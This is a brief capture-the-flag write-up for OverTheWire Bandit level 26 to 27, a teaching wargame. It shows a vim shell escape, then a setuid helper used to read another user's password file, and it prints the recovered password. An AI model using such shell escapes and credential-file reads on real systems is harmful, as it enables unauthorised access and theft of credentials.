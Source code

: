 # Level 26 - Level 27: Bandit - OverTheWire

## Level Goal

Good job getting a shell! Now hurry and grab the password for bandit27!

## Solution


```bash
:set shell=/bin/bash
:shell
```

```bash
bandit26@bandit:~$ ls
bandit27-do  text.txt
bandit26@bandit:~$ ./bandit27-do 
Run a command as another user.
  Example: ./bandit27-do id
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
```
